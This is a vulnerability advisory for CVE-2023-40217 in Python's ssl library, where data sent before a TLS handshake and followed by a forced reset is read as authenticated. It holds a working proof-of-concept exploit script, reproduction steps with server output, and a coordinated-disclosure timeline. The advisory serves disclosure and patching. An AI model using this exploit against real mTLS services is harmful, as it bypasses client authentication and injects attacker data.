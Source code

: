 # Summary

Python ssl library in Python before 3.8.18, 3.9.x before 3.9.18, 3.10.x before 3.10.13, and 3.11.x before 3.11.5 did not properly handle a case where the TCP connection was terminated before a TLS handshake was made. This caused the library to return a ssl.SSLSocket object with TCP data in its buffer. An application could then read this data from the SSLSocket as it would be post-handshake TLS encrypted data.

An attacker could exploit this vulnerability by connecting to a TLS server, sending payload data to the socket and immediately force close the socket. The TLS server would then assume that the TLS handshake and any client authentication was done and read the attacker supplied data. The vulnerability affects mostly mTLS Python implementations.

The vulnerability severity is CVSS is 8.6 HIGH (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:H/A:N)

The exploit can be triggered reliably by sending TCP data to a Python SSLSocket followed directly by a RST packet. This can be implemented with Python with the following code:

```python
import socket
import struct

# Connect to a server with TCP
upstream_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
upstream_socket.connect(('127.0.0.1', 12345))
# Exploit part 1: set the socket to be killed immediately when closed
upstream_socket.setsockopt(socket.SOL_SOCKET, socket.SO_LINGER, struct.pack('ii', 1, 0))
upstream_socket.setblocking(False)

# Exploit part 2: Send malicious data instead of TLS handshake and immediately force close the connection
data = b"exploit by aapo"
upstream_socket.send(data)
upstream_socket.close()
```

The ```socket.setsockopt()``` and ```socket.setblocking()``` options ensure that the socket is not closed gracefully but is forcibly terminated when ```socket.close()``` is called.

# Reproduction

 1. Run a basic Python ssl server with a vulnerable Python version

    ```console
    $ python3 --version
    Python 3.7.3
    $ python3 python-ssl-server-victim.py
    ```

 2. Connect to the server with a standard TLS client

    ```console
    $ openssl s_client -connect 127.0.0.1:12345
    ```

 3. Observe that the server does not accept the connection as the client does not have a proper client certificate

    ```console
    $ python3 --version
    Python 3.7.3
    $ python3 python-ssl-server-victim.py
    Traceback (most recent call last):
    File "python-ssl-server-victim.py", line 18, in <module>
      tls_socket = ctx.wrap_socket(conn, server_side=True)
    File "/usr/lib/python3.7/ssl.py", line 412, in wrap_socket
      session=session
    File "/usr/lib/python3.7/ssl.py", line 853, in _create
      self.do_handshake()
    File "/usr/lib/python3.7/ssl.py", line 1117, in do_handshake
      self._sslobj.do_handshake()
    ssl.SSLError: [SSL: PEER_DID_NOT_RETURN_A_CERTIFICATE] peer did not return a certificate (_ssl.c:1056)
    ```

 4. Restart the server and connect to it with the exploit POC

    ```console
    $ python3 python-ssl-client-exploit.py
    ```

 5. Observe that the server prints out the attacker chosen payload

    ```console
    $ python3 --version
    Python 3.7.3
    $ python3 python-ssl-server-victim.py
    b'exploit by aapo'
    ```

 6. If the same server code is run with patched Python version, the exploit will not work

    ```console
    $ python3.13 --version
    Python 3.13.0a0
    $ python3.13 python-ssl-server-victim.py 
    Traceback (most recent call last):
      File "/usr/local/lib/python3.13/ssl.py", line 992, in _create
        self.getpeername()
    OSError: [Errno 107] Transport endpoint is not connected
    
    During handling of the above exception, another exception occurred:
    
    Traceback (most recent call last):
      File "python-ssl-server-victim.py", line 18, in <module>
        tls_socket = ctx.wrap_socket(conn, server_side=True)
                     ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
      File "/usr/local/lib/python3.13/ssl.py", line 455, in wrap_socket
        return self.sslsocket_class._create(
               ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
      File "/usr/local/lib/python3.13/ssl.py", line 1024, in _create
        raise notconn_pre_handshake_data_error
    ssl.SSLError: Closed before TLS handshake with data in recv buffer.
    ```

 7. The vulnerability can be used also from the server side if the client reads data before sending any

    ```console
    $ python3 python-ssl-server-exploit.py
    ```

    ```console
    $ python3 python-ssl-client-victim.py
    b'exploit by aapo'
    ```

# Additional Materials

 * Detailed advisory made together with the Python security team: [https://mail.python.org/archives/list/security-announce@python.org/thread/PEPLII27KYHLF4AK3ZQGKYNCRERG4YXY/](https://mail.python.org/archives/list/security-announce@python.org/thread/PEPLII27KYHLF4AK3ZQGKYNCRERG4YXY/)
 * GitHub issue for the vulnerability [https://github.com/python/cpython/issues/108310](https://github.com/python/cpython/issues/108310)
 * Seth Larson's detailed writeup from the Python Security Response Team perspective [https://sethmlarson.dev/security-developer-in-residence-weekly-report-8](https://sethmlarson.dev/security-developer-in-residence-weekly-report-8)

# Timeline

 * August 8,2023: Reported by Aapo Oksman to security@python.org.
 * August 8, 2023: Acknowledged the report.
 * August 9, 2023: Acknowledgement of the vulnerability, sent CVE ID request to MITRE.
 * August 10, 2023: CVE-2023-40217 assigned by MITRE.
 * August 15, 2023: Patch authored by Gregory P Smith, reviewed by Thomas Wouters.
 * August 22, 2023: Patch applied to feature and security branches by Łukasz Langa.
 * August 24, 2023: Python 3.11.5, 3.10.13, 3.9.18, 3.8.18 are published containing the fix for CVE-2023-40217.
 * August 24, 2023: Advisory published.
